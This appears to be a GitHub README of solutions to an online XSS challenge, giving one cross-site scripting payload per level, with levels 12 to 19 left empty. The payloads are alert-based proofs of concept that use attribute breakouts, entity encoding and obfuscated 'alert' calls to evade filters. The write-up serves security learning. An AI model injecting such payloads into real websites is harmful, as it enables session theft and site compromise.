 # Solutions of XSS Challenges of http://sudo.co.il/xss/
---
<p align="center">
  <img src="sudo.co.il.PNG">
</p>

---
**Our mission is to popup window with document.domain (sudo.co.il) *without any kind of user interaction* **
---
- Level 0
```javascript
<script>alert(document.domain)</script>
```

- Level 1
```javascript
"><script>alert(document.domain)</script>
```

- Level 2
```javascript
" autofocus onfocus="alert(document.domain)
```

- Level 3
```javascript
"autofocus/onfocus="alert(document.domain)
```

- Level 4
```javascript
"autofocus/onfocus="confirm&#40;document.domain&#41;
```

- Level 5.1
```javascript
'-alert(document.domain)-'
```

- Level 5.2
```javascript
\'-alert(document.domain);<!--
```

- Level 6
```javascript
\'-alert(document.domain);//
```

- Level 7
```javascript
" autofocus="" onfocus="alert(document.domain)
```

- Level 8
```javascript
"};this[8680439..toString(30)](1);//
```

- Level 8.1
```javascript
"};this[8680439..toString(30)](1);{"
```

- Level 9
```javascript
'};this[8680439..toString(30)](1);{'
```

- Level 10
```javascript
';this[8680439..toString(30)](1);'
```
or,
```javascript
x';x=top["al"%2B"ert"](document.domain);//
```

- Level 11
```javascript
#<script>alert(document.domain)</script>
```
<!--
- Level 12
```javascript

```

- Level 13
```javascript

```

- Level 14
```javascript

```

- Level 15
```javascript

```

- Level 16
```javascript

```

- Level 17
```javascript

```

- Level 18
```javascript

```

- Level 19
```javascript

```
-->
